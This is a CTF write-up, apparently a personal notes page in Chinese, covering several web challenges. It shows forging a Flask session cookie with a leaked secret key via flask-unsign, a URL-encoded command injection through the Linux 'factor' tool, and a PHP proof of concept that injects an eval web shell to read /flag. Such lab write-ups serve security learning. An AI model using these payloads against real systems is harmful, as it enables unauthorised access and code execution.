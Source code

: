 - # flask?jwt?
	- 看到
		- ```
		  © C4skg 有问题请发送邮件至 adm1n@flag.com
		  ```
	- 看到changepasswd界面有注释flask secret, 伪造cookie即可
- # flask?jwt?(hard)
	- 看到`/`页面的注释提示`<!-- 我der密钥去哪里了，哦！源来氏被 /wor 藏起来了 -->`
	- 访问`/wor`，显示当前用户的登陆时间
	- 查看cookie发现登陆时间存储在cookie中
	- 清除cookie访问`/wor`发生报错，发现key存储在源码中
		- ```python
		  app.secret_key = 'hardgam3_C0u1d_u_f1ndM3????';
		  @app.route('/wor')
		  def wor():
		      loginTime = session.get('time');
		      if not loginTime:
		          return '' % loginTime; #用这种方式唤醒 debug，看看到底哪里出了问题，怎么会没有登录时间呢？？
		      else:
		          return '哼，我不会告诉你我藏哪里了，但是不能什么都不跟你说吧？哎，告诉你上次的登录时间吧: %s' % loginTime;
		  ```
	- 使用 [[CTF/Flask-Unsign]]伪造cookie即可
		- ```shell
		  flask-unsign -s --secret 'hardgam3_C0u1d_u_f1ndM3????' -c "{'_fresh': True, '_id': '56bbc672f2c9802cba4fb5e9f1bb32cac18687858b06381395d99761996d0e4bcf8c1259e508de9ea4c06d908514909f48f6dc8db665d2abb4e47d0468166956', '_user_id': '1'}"
		  ```
	-
- # 信息收集
	- > 未解出，施工中
	- 看到index.php
	- apache设置`/usr/local/apache2/conf/httpd.conf`
		- ```
		  <VirtualHost *:80>
		  
		      ServerName localhost
		      DocumentRoot /usr/local/apache2/htdocs
		  
		      RewriteEngine on
		      RewriteRule "^/nssctf/(.*)" "http://backend-server:8080/index.php?id=$1" [P]
		      ProxyPassReverse "/nssctf/" "http://backend-server:8080/"
		  
		  </VirtualHost>
		  ```
- # ez_factor
	- 提示linux原生分解质因数程序，搜索得到linux自带的分解质因数程序`factor`
	- 猜测为shell RCE
	- 测试
		- `GET /factors/%2010%20--version HTTP/1.1`
			- 打印版本信息
		- `GET /factors/%2010%20--version%20%26%26%20ls%20%2f HTTP/1.1`
			- 只有数字，貌似所有字母都被过滤了
	- 结论：直接使用` 10 --version && ls /`之类的payload, 加上urlencode后传上去即可RCE
- # MyWeb
	- 题目在解析JSON时会将所有的`]`都替换成用户的输入，我们可以利用这一点实现字符逃逸
	- 在使用以下poc后字符x逃逸出了单引号包裹之外
		- ```python
		  r = base_get(url, params = {
		      "mode": "save",
		      "value": "]"
		  })
		  r = base_get(url, params = {
		      "mode": "save",
		      "value": "x"
		  })
		  ```
	- 我们只需要将x替换成我们想要的payload即可，poc如下
		- ```python
		  r = base_get(url, params = {
		      "mode": "save",
		      "value": "]"
		  })
		  r = base_get(url, params = {
		      "mode": "save",
		      "value": "];eval($_POST[data]);//"
		  })
		  r = base_post(url, params = {
		      "mode": "read",
		  }, data = {
		      "data": "system('cat /flag');"
		  })
		  
		  print(r.text)
		  ```